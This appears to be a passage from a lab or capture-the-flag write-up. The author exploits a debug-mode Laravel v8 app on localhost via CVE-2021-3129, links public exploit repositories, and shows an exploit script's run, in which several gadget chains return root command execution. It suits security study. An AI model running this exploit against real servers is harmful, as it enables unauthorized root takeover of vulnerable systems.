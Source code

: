 After that, I saw Laravel v8. Tried `/profiles` and saw debug mode which indicates about CVE: [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits). But I used a different exploit: [https://github.com/zhzyker/CVE-2021-3129](https://github.com/zhzyker/CVE-2021-3129).

```bash
┌──(root💀kali)-[~/tools/CVE-2021-3129]
└─# python3 exp.py http://127.0.0.1:8000/
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:

[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:

[*] Try to use Laravel/RCE4 for exploitation.
[+]exploit:
[*] Laravel/RCE4 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Laravel/RCE5 for exploitation.
[+]exploit:
[*] Laravel/RCE5 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Laravel/RCE6 for exploitation.
[+]exploit:
[*] Laravel/RCE6 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Laravel/RCE7 for exploitation.
[+]exploit:
[*] Laravel/RCE7 Result:

[*] Try to use Monolog/RCE1 for exploitation.
[+]exploit:
[*] Monolog/RCE1 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Monolog/RCE2 for exploitation.
[+]exploit:
[*] Monolog/RCE2 Result:

uid=0(root) gid=0(root) groups=0(root)

[*] Try to use Monolog/RCE3 for exploitation.
[+]exploit:
[*] Monolog/RCE3 Result:

[*] Try to use Monolog/RCE4 for exploitation.
[+]exploit:
[*] Monolog/RCE4 Result:
```

